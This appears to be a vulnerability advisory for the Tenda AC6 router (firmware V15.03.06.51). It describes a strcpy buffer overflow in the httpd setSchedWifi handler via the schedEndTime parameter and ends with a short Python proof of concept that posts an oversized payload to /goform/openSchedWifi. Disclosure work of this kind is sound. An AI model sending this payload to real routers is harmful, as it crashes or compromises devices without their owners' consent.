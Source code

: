 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/setSchedWifi via parameter schedEndTime

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](../Tenda_AC10/4.png)

get value from schedEndTime ,and set enable = schedWifiEnable = 0

![](../Tenda_AC10/3.png)

as follow we set, get into line 74, call strcpy, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/openSchedWifi"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'schedEndTime': payload, 'schedWifiEnable': 0})
``` 
